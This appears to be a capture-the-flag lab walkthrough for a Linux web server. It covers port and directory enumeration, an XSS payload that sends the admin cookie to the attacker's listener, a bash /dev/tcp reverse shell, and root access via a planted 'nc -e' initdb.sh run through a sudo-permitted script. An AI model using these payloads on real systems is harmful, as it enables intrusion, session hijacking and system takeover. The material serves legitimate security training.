

Start pinging the target IP:

```
ping 10.10.11.8
```

You will get response outcome meaning that the server is active. Let's start with an nmap scap to see what ports are opened and which information can be retrieved.

```
nmap -sC -sV 10.10.11.8 -oN output_nmap.txt
```

This command returns the output of nmap into `output_nmap.txt`file.

`-sC`: Default Script Scan. This flag runs a set of standard nmap scripts at the target host (10.10.11.8) to uncover additional information and potential vulnerabilities.

`-sV`: Version Detection. Probes open ports to determine what service and version is running on them (e.g., Identifying application and version running on each open port). It ensures you get accurate service and version information for the open ports, which can be crucial for identifying specific vulnerabilities and understanding the network environment better.

Concatenating `-sC` and `-sV` in `nmap` scans is a common practice because it provides a detailed analysis of the target.

The summary of the outcome is the following:

1. Host IP: `10.10.11.8`
2. Open ports:
   a. 22/tcp: SSH (OpenSSH 9.2p1)
   b. 5000/tcp: Web server
3. Operating System: Linux

The outcome shows that SSH on port 22 and web server on port 5000 might be targets for further investigation or exploitation.



SSH Typically requires valid credentials or a vulnerability in the SSH service for exploitation (I don't know about a vulnerability for OpenSSH 9.2p1 right now). Web servers often have multiple points of interaction and can be exploited easier if misconfigurations or vulnerabilities are found (We can try XSS, SQL injections, command injection...). The web application could expose sensitive information or have weak authentication methods.

Let's access the webserver from a browser. Type in the search bar `http://10.10.11.8:5000`. Click on "For questions", it automatically redirects to `http://10.10.11.8:5000/support`. We observe that the site is reachable and contains a form to send. Usually forms are good infection points which attackers can leverage to bypass systems.


Instead of trying common scripts in javascript to interact with the website and make them vulnerable. Let's scan what this domain has to offer. There is a famous tool in Kali Linux called `Gobuster`.

`Gobuster` is a tool for brute-forcing directories, files, DNS subdomains and virtual hosts. It is commonly used in pentesting to discover hidden resources on a web server that might not be immediately visible through normal browsing or standard `web crawlers`. To install it type: `sudo apt install gobuster`. Then run the following command:
```
gobuster dir -u http://10.10.11.8:5000 -w /usr/share/wordlists/dirb/big.txt
```
gobuster uses the `dir` (dir flag) to scan for directories on the `-u` (url flag) on the domain specified using the `-w` (worldlist flag) located in `/usr/.../big.txt`. It can be observed that there are two available URLs `/dashboard` (Status:500, , i.e., Internal Server Error) and `/support` (Status: 200, i.e., OK).


Our URL of interest is `/dashboard` since the most plausible situation is that has permission issues. It is highly likely that we don't have persmissions to access such URL so let's dig more into it.


To access `http://10.10.11.8:5000/dashboard`we need to be able to login or have admin privileges. Nonetheless, we only have a non-accessible URL (`/dashboard`) and accessible URL (`support`). There must be a way to bypass the server and make it think that we are authorized to access the (`/dashboard`) URL. A good way to bypass a server is to give it an admin cookie or session id. The differences between admin cookie and session id can be seen in the following  [link]([https://www.google.com](https://www.tutorialspoint.com/What-is-the-difference-between-session-and-cookies#:~:text=Cookies%20are%20client-side%20files,files%20that%20store%20user%20information.&text=Cookies%20expire%20after%20the%20user,logs%20out%20of%20the%20program.))


How can an admin cookie be obtained? A good way to obtain admin cookies is to use a XSS-steal cookie technique. An example can be found in the following [link](https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e)

#### XSS

Cross-Site Scripting (XSS) is a vulnerability that allows an attacker to inject malicious scripts into web pages. These scripts can run in the victim's browser and can be used for a variety of malicious activities, including stealing cookies. Cookies often store session tokens and other sensitive information, and stealing them can allow an attacker to hijack a user's session, gaining unauthorized access to their account/web server. When an XSS vulnerability is present on a website, an attacker can inject a script that reads the user's cookies and sends them to the attacker’s server (i.e., our `server1` that we will set up now). The attacker can then use these cookies to impersonate the user.

For this attack we need the following ingredients:

1. Setting up a server (i.e., `server1`)
2. Configure Burp-suite scanner
3. Inject the malicious code

##### 1. Setting up the server

The purpose of this step is to set up a server (`server1`) to receive the stolen cookie. Use a basic HTTP server on port 8001 (you can choose whichever port you want, just be consistent) that will log incoming requests. The server listens for incoming HTTP requests, it will receive requests containing the victim's cookies. Type in a new CLI:

```
python3 -m http.server 8001
```


##### 2. Configure Burp-suite scanner

Open Burp-suite scanner. Click on "Temporary project in memory", "Next", "Use Burp defaults", "Start Burp". Click on `Proxy` tab, then on `ìntercept is off` to set it on. You will have an outcome as follows:


Click on "Open browser". A browser will appear on your left. This explorer is designed to interact with Burp-suite. We will use it for the XSS.


Type in the search bar `http://10.10.11.8:5000/support`. You will observe that the page is freezed. When Burp Suite's proxy is set to intercept HTTP requests, it captures each HTTP request sent by your browser before it reaches the target server. This allows you to review, modify, or drop the request before it is forwarded to the target server. Click on "Forward" button.


You will see that the URL is reached. Introduce some random data into the webpage. Submit. Check the outcome on the right-hand side. Burp-suite's right window is where you can play with the request/response information. Right-click on the request information and select "send to repeater" so we will be able to try multiple things without recatching the request several times. Now time to inject the payload. 

```
<script>var i=new Image(); i.src="http://{IP}:{port}/?cookie="+btoa(document.cookie);</script>
```

Observe the terms `{IP}:{port}`in the previous command line (CL). The CL is generic and won't work. You have to find your IP address and use the port of the server built in step 1 (server1). To know your IP address type in a new terminal `ifconfig` and you must see your personal IP and the IP assigned to your HTB VPN. The IP from the VPN is the one you have to use. In my situation is `10.10.14.108` so my XSS injection is `<script>var i=new Image(); i.src="http://10.10.14.108:8001/?cookie="+btoa(document.cookie);</script>`.

Introduce this injection into Burp-suite in `User-Agent` field and forward the communication. If no results appear add it too into the `message` field and click on forward.


You will receive the following outcome in your server1 CLI:


Congratulations! You got the admin cookie. Now you have to decode it. Your XSS-injection script was encoded in binary 64 to ensure a safe transmission via URL. So now you have to decode it. For that open a new CLI and run: 

```
echo "aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=" | base64 -d
```
The outcome is the decoded admin cookie:


Turn off the intercept in Burp-suite, go back the the Burp browser and introduce `http://10.10.11.8:5000/dashboard`. You will access to the Forbidden site. Turn on the intercept and refresh the site. You will observe the following outcome:


Introduce the following fields: `Cache-Control: max-age=0` and `Cookie: {cokie deciphered}. Click "Forward" and you will get in the Administrator Dashboard.


In the context of a penetration test or a capture-the-flag (CTF) challenge, the goal is often to gain a shell on the target system (the webserver). This provides deeper access and control over the target, allowing the tester (you) to explore and potentially escalate privileges further. From here the reasoning is the following:

1. Assess Input Fields: Explore the web application to identify points where malicious commands can be injected.
2. Get a Shell: The goal is to obtain a reverse shell to gain interactive access to the target system.
3. Design Payload: A payload must be designed to open a reverse shell connection. It uses bash to create an interactive shell session that redirects input and output to the attacker's machine, effectively giving the attacker remote control over the target system.

We infere in a certain way that we are in the correct path because we are behind a protected page that required authenticated access (admin cookie), which has higher privilege or access to more sensitive parts of the application. Getting a shell means the user can interact with the target system more freely, execute commands, and explore the environment. This is a significant step in gaining control over the system.

Open a new terminal tab and create a file `vim payload.sh` with the following content:

```
/bin/bash -c 'exec bash -i >& /dev/tcp/{IP}/1111 0>&1'
```

Make the payload executable with `chmod +x payload.sh`. The content of the payload:


1. `/bin/bash -c`: Tells the CLI to run the following command using the bash shell.
2. `'exec bash -i >& /dev/tcp/{IP}/1111 0>&1'`: The core of the reverse shell command. `exec bash -i` starts an interactive bash shell. `/dev/tcp/` is a Bash feature that allows TCP connections to be treated like files, when a program writes to this path it actually sends data over the network to the specified IP address and port ({IP}/1111). `0>&1` makes the standard input of the Bash shell read from the TCP connection.

The IP address must be your IP address (mine is `10.10.14.108`) and the /1111 is the port we are going to set (you can set whichever you want to) for a netcat listener.

#### Netcat

Netcat is a network tool for reading from (and writing to) network connections using TCP or UDP protocols. Some of its applications include:

1. Port Scanning & Banner Grabbing: Checking open ports on a network & retrieving information about a service running on an open port.
2. File Transfers: Sending and receiving files over a network connection.
3. Creating Backdoors: Setting up shells on target machines (out goal).
4. Debugging and Testing Network Services: Sending and receiving arbitrary data to (and from) network services for testing.

To setup the netcat listener we execute:

```
nc -nvlp 1111
```

`nc`: Starts Netcat. `-n`: Tells Netcat to use numeric-only IP addresses, without attempting DNS resolution. `-v`: Enables verbose mode, to get more detailed output. `-l`: Indicates that Netcat should listen for incoming connections. `-p 1111`: Specifies the port number on which Netcat will listen (port 1111 in this case).


##### Context of the attack

Once the payload is created, the steps are the following:

1. The attacker runs the command `nc -nvlp 1111` on his machine to start a Netcat listener on port 1111.
2. The payload `/bin/bash -c 'exec bash -i >& /dev/tcp/{IP}/1111 0>&1'` is executed on the target machine (webserver). This command on the target machine opens a reverse shell, connecting back to the attacker’s machine on port 1111.
3. The target machine connected to the attacker’s Netcat listener, establishes a reverse shell session. The attacker can now interact with the target machine’s shell through this connection.

Let's continue with the situation. Be sure to not to close server1, it must be running in the same directory as payload.sh. Go to `/dashboard` and click on "Submit" to catch the traffic with Burp-suite. Insert `admin cookie` to get privileges and the `command that will fetch the payload` created and run it.


You will see the following outcome in server1 and your netcat listener:


This means that you accessed the webserver shell. Playing around (moving through folders) you can get the file `user.txt` where the user flag is located.


#### Root flag

Now is the time to get the `root flag`. Let's see what are the privileges the user logged as default has. Run `sudo -l`. You will get the following outcome:


There is a line that states "User dvir may run the following commands on headless". Let's cat that content:


`/usr/bin/syscheck` is a system checking script that performs several actions, among them checking if a process named `ìnitdb.sh` is running; if not, it attempts to start it.

Since `syscheck` runs `initdb.sh` script, an attacker might think about exploiting this by placing a malicious `initdb.sh` script in the directory from which the `syscheck`is executed. The plan is to insert a reverse shell payload into the `initdb.sh` script. For that run in the CL:

```
echo "nc -e /bin/sh {IP} {port}" > initdb.sh
chmod +x initdb.sh
```


Being {IP} and {port} your IP and port (my port in this case will be 1212). `echo` prints the payload that will be executed by the webserver to return a reverse shell to us. Second line is to make the file executable.

The execution flow is the following:

1. `Setup`: The attacker ensures they have a Netcat listener (1212) running on their machine to catch the reverse shell.
2. `Malicious script insert`: The attacker places his crafted initdb.sh script in the directory where syscheck will be executed.
3. `Execute syscheck`: When syscheck runs, it checks if initdb.sh is running. If it’s not, it attempts to start initdb.sh.
4.  Reverse shell obtained.

Open a new listener on the port you indicated in the payload in a new CL. On another CL run again the `syscheck` file as follows:


You will see that you don't have root access. This is because the shell is not stabilized yet. When you get a reverse shell from a target machine, it often lacks the features and stability of a regular interactive shell. This means you may not have functionalities like command history, tab completion, or the ability to use certain keyboard shortcuts, which makes it challenging to work efficiently. Stabilizing the shell is the process of converting this basic shell into a more stable and functional interactive shell. To stabilize the shell you need:

1. Target machine must have Python 2 or 3.
2. import pty module and spawn bash shell: `python3 -c 'import pty;pty.spawn("/bin/bash")'`
3. Press `CTRL + Z`to background process and get back to the host machine
4. Use stty command to set terminal line settings and foreground back the target terminal: `stty raw -echo; fg`
5. Set the terminal emulator to xterm: `export TERM=xterm`
6. Press `Enter`


You will access as root this time. The CLI is as follows:


Playing around among folders you will be able to find the root flag.


